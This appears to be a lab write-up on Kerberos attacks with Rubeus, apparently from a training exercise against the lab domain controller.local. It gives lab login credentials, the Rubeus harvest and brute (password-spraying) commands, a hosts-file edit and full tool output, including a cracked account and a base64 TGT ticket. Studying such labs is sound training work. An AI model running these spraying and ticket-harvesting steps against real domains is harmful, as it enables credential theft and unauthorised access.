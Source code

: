 # Harvesting & Brute-force Tickets w/ Rubeus
 RDP or SSH into machine  
 Username: Administrator  
 Password: P@$$W0rd  
 Domain: controller.local

 ## Harvesting Tickets w/ Rubeus
 - powerful tool for attacking Kerberos
 
 Attacks include:
 - Overpass the Hash
 - Ticket requests/renewals
 - Ticket Management
 - Ticket Extraction
 - Harvesting
 - Pass the Ticket
 - Kerberoasting

Link to download Rubeus:
 https://github.com/GhostPack/Rubeus

 <pre>C:\Users\Administrator>Rubeus.exe harvest /interval:30</pre>

 ## Brute-forcing / Password Spraying w/ Rubeus
 Brute-forcing passwords: use 1 account + wordlist of passwords

 Password spraying: use 1 password (Password1) + spray against all user accounts in the domain

 This attack will take a given Kerberos-based password and spray against all found users. 
 - Generate a .kirbi ticket  

This ticket is a TGT that can be used to get service tickets from KDC.

Add Domain Controller to Windows host file:
<pre>echo 10.10.233.155 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts</pre>

- Take a given password `Password1` and spray against all found user accounts
- Give the .kirbi TGT for that user

<pre>controller\administrator@CONTROLLER-1 C:\Users\Administrator\Downloads>Rubeus.exe brute /password:Password1 /noticket

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[-] Blocked/Disabled user => Guest
[-] Blocked/Disabled user => krbtgt
[+] STUPENDOUS => Machine1:Password1
[*] base64(Machine1.kirbi):

      doIFWjCCBVagAwIBBaEDAgEWooIEUzCCBE9hggRLMIIER6ADAgEFoRIbEENPTlRST0xMRVIuTE9DQUyi
      JTAjoAMCAQKhHDAaGwZrcmJ0Z3QbEENPTlRST0xMRVIubG9jYWyjggQDMIID/6ADAgESoQMCAQKiggPx
      BIID7TILMgsNpUYqwaAS34F+MB9rZ1UlRQhkPyVuaDa6C+uo0SiLDVJt4FdXIRv4lFA9BmvKhfSYvPZG
      qa53GXSMXqeFw1TGkz1fp1BnVAhAz47S36f4LkF5nHp4ZXUtr2nE7mRLQ56w/3UEVGL2TygZbOA/T/Yq
      redPW2mJUCEZt5uMxrj6lofRWk684TgzDxaXwN0EoMYB0XbyomDq+z7LCTCdk2+vzBA36qNDzpfRDD7R
      PdK4gizUgYnDs0AfOj3R6YvZB1Ot5EKKos62gJYk3AtkC2pJxM2FJ/xbNxUAd5eUmFwGlzVD/0cOUwqP
      RJLm5vauhpS9eoSLbP6XnEQ2SCfblMN2Ht0gk/igxNRRSHvZC3EW1lW1x6qCv52vpYGXcSH3VhkZqCAy
      2EKNaibsagX9XH9vJ6pQBZLTISEQRnj4wMXToOee9I6JrFuQwMvx3lJPj9JJaSE3EStiejDDffCF6Hl4
      zZh3bW5xBHuHrqce4nJPQ+VGYLH9wkHaxw+HRCFzPRPD7pZhGHuyf3I6x/cWADF0XR2fnH1TEJUWlW1f
      WosDwirbl+sQtFGV5QuyJUXMT0HblayC/ZkwYbmaLgfsscGt2/3UyxIealECUiBBrbaLK9MY2Rm4/uPc
      gjAAfPknAQju2pzn4Zg9kxIbvpgyQxZz4rwrBw1AAAwrS99PQrNZSgHdKBs2A/TV6OVikDZTwOoylLGu
      ZS+AzLPqwLEpJVjJpITkW0OP4tYoWr2A5HhCgchXuuoqQe7+EDUIweUT6en/f9v7RYJ05V/CzwmUxE2k
      WQPRbobOkXatfCU1PBN/pLG2qOnURrKi/wQOZKOLe2w90UovYuEmurl4WJJN9soP67w2QBToJCK2pnF7
      +Ba3+PONwhAY/CDDXFmWvzvRDvUVS0Q5xeoMWuG7CESq9redu+B9r7TKiFkbiG6rC0LiDJo5NWQtl6rK
      S2YhVtR/SPEx/RFxG/j1IMgwXhKMhsSd2Iro4td9BeGNBu0hP1Vdprr7CtdzLPXoQONL94HCbBk3b9eG
      dDD7CJ13irgJFB7t30Jz9qz6/C22Y+ID9JZgmGEyxbQNXg83KCl2Peo1QhbZqcop8i9FuqSocpl3CGOL
      qlFWgMWuuYJSEUmS1rJJ34vXywc35VPrAmouyircbdF6o7mc8XqRbF3kWGDCu01SqsGv8sEpQJGrimhJ
      7pebDKTTYsasnj7Do7C/T3Gw/vCl9nQ0kuvDzS6IXhJpQ9pO7W/7VWrfmKutDRQq5EYBcswo2OFeKS6J
      h3TAAebkCDYqavQT8c7wTsqZyw2Q8KxFw2a2HPirByR/JeekfSJBTVRZgOWKk6aUYqOB8jCB76ADAgEA
      ooHnBIHkfYHhMIHeoIHbMIHYMIHVoCswKaADAgESoSIEIL3OWqvP1K4tw+KsTORjBVlbasF+jyAa5JZG
      CTnM6GUnoRIbEENPTlRST0xMRVIuTE9DQUyiFTAToAMCAQGhDDAKGwhNYWNoaW5lMaMHAwUAQOEAAKUR
      GA8yMDIzMDkxMDIyMjUyMFqmERgPMjAyMzA5MTEwODI1MjBapxEYDzIwMjMwOTE3MjIyNTIwWqgSGxBD
      T05UUk9MTEVSLkxPQ0FMqSUwI6ADAgECoRwwGhsGa3JidGd0GxBDT05UUk9MTEVSLmxvY2Fs</pre>